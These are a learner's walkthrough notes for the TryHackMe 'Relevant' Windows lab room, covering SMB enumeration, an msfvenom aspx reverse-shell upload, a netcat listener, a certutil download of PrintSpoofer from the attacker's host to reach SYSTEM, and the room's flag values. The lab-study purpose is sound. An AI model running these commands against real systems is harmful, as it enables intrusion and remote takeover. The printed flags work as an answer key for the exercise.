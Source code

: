 #tryhackme #autorecon #oscp-report #print-spoofer #crackmapexec #asp #webshell #privilege-token #windows #msfvenom #certutil 

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days.

**Scope of Work**

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

- User.txt
- Root.txt  

Additionally, the client has provided the following scope allowances:

- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first  
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

Machine may take up to 5 minutes for all services to start.  

****Writeups will not be accepted for this room.****

# Report

> Used SysReporter to finish OSCP-like format report - https://labs.sysre.pt/projects/776be3b6-c60e-427b-8614-1914a9275ea5/

![](../../attachment/aa8d06b460116061e2584ecc422a18fa.pdf)

# Notes

> Potato Cheatsheet https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer

## Recon

### Autorecon

```bash
sudo $(which autorecon) -vv -m 5 --dirbuster.threads 50 10.10.19.222
```

### CrackMapExec

```bash
┌──(kali㉿kali)-[~/thm/Relevant]
└─$ cme smb 10.10.193.232 -u a -p '' --shares
SMB         10.10.193.232   445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.10.193.232   445    RELEVANT         [+] Relevant\a:
SMB         10.10.193.232   445    RELEVANT         [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         10.10.193.232   445    RELEVANT         [+] Enumerated shares
SMB         10.10.193.232   445    RELEVANT         Share           Permissions     Remark
SMB         10.10.193.232   445    RELEVANT         -----           -----------     ------
SMB         10.10.193.232   445    RELEVANT         ADMIN$                          Remote Admin
SMB         10.10.193.232   445    RELEVANT         C$                              Default share
SMB         10.10.193.232   445    RELEVANT         IPC$                            Remote IPC
SMB         10.10.193.232   445    RELEVANT         nt4wrksv        READ,WRITE
```

## Exploitation

### Initial Access

![](../../attachment/3fb4f8b3594357b640e58f1144de8f42.png)

Since I have write access to `nt4wrksv`

Upload an `aspx` reverse shell

```bash
┌──(kali㉿kali)-[~/thm/Relevant]
└─$ mkdir www && cd www

┌──(kali㉿kali)-[~/thm/Relevant/www]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1111 -f aspx -o rev.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3406 bytes
Saved as: rev.aspx

┌──(kali㉿kali)-[~/thm/Relevant/www]
└─$ smbclient.py a@10.10.193.232 -no-pass
Impacket v0.10.1.dev1+20230620.44942.4888172 - Copyright 2022 Fortra

Type help for list of commands
# use nt4wrksv
# put rev.aspx
# ls
drw-rw-rw-          0  Fri Jun 23 08:00:35 2023 .
drw-rw-rw-          0  Fri Jun 23 08:00:35 2023 ..
-rw-rw-rw-         98  Sat Jul 25 11:35:44 2020 passwords.txt
-rw-rw-rw-       3406  Fri Jun 23 08:00:35 2023 rev.aspx
#
```

```bash
┌──(kali㉿kali)-[~/thm/Relevant/www]
└─$ curl http://10.10.193.232:49663/nt4wrksv/rev.aspx
```

```bash
┌──(kali㉿kali)-[~/thm/Relevant]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.193.232] 49929
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>cd C:\Users
cd C:\Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users

07/25/2020  02:03 PM    <DIR>          .
07/25/2020  02:03 PM    <DIR>          ..
07/25/2020  08:05 AM    <DIR>          .NET v4.5
07/25/2020  08:05 AM    <DIR>          .NET v4.5 Classic
07/25/2020  10:30 AM    <DIR>          Administrator
07/25/2020  02:03 PM    <DIR>          Bob
07/25/2020  07:58 AM    <DIR>          Public
               0 File(s)              0 bytes
               7 Dir(s)  21,052,596,224 bytes free

C:\Users>cd Bob
cd Bob

C:\Users\Bob>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users\Bob

07/25/2020  02:03 PM    <DIR>          .
07/25/2020  02:03 PM    <DIR>          ..
07/25/2020  02:04 PM    <DIR>          Desktop
               0 File(s)              0 bytes
               3 Dir(s)  21,052,596,224 bytes free

C:\Users\Bob>cd Desktop
cd Desktop

C:\Users\Bob\Desktop>type user.txt
type user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
C:\Users\Bob\Desktop>
```

### Privilege Escalation

```bash
C:\ProgramData>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Potato attacks will not work on this machine, the creator made some defense for it

> Using PrintSpoofer to gain SYSTEM privilege for the interactive shell

```bash
c:\windows\system32\inetsrv>cd C:\Programdata
cd C:\Programdata

C:\ProgramData>certutil -urlcache -split -f http://10.11.19.145/PrintSpoofer64.exe ps.exe
certutil -urlcache -split -f http://10.11.19.145/PrintSpoofer64.exe ps.exe
****  Online  ****
  0000  ...
  6a00
CertUtil: -URLCache command completed successfully.

C:\ProgramData>ps.exe -i -c powershell
ps.exe -i -c powershell
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
nt authority\system

PS C:\Windows\system32> cat C:\Users\Administrator\Desktop\root.txt
cat C:\Users\Administrator\Desktop\root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
PS C:\Windows\system32>
```

